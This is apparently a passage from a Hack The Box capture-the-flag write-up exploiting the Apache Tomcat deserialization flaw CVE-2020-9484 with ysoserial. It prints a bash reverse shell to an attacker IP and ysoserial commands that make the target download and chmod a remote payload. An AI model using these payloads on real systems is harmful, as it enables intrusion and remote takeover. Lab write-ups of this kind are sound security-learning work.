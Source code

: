 * [https://tomcat.apache.org/security-9.html\#Fixed\_in\_Apache\_Tomcat\_9.0.29](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.29)

![](/assets/img/3-cve1.png)

Found a vulnerability that had been fixed in version 9.0.35 that sounded very useful for getting remote code execution, which was given CVE number CVE-2020-9484.

* [https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
* [https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html](https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html)

> Apache Tomcat is affected by a Java deserialization vulnerability if the PersistentManager is configured as session manager. Successful exploitation requires the attacker to be able to upload an arbitrary file to the server.

* [https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4)
* [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

```text
#!/bin/bash

bash -c "bash -I >& /dev/tcp/10.10.15.98/8990 0>&1"
```

Downloaded the latest release of ysoserial and created my simple reverse shell script payload

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'curl http://10.10.15.98:9990/payload.sh -o /dev/shm/payload.sh' > downloadPayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Then followed the instructions to use ysoserial to create my malicious session file to deserialize

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'chmod 777 /dev/shm/payload.sh' > chmodPayload.session   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```
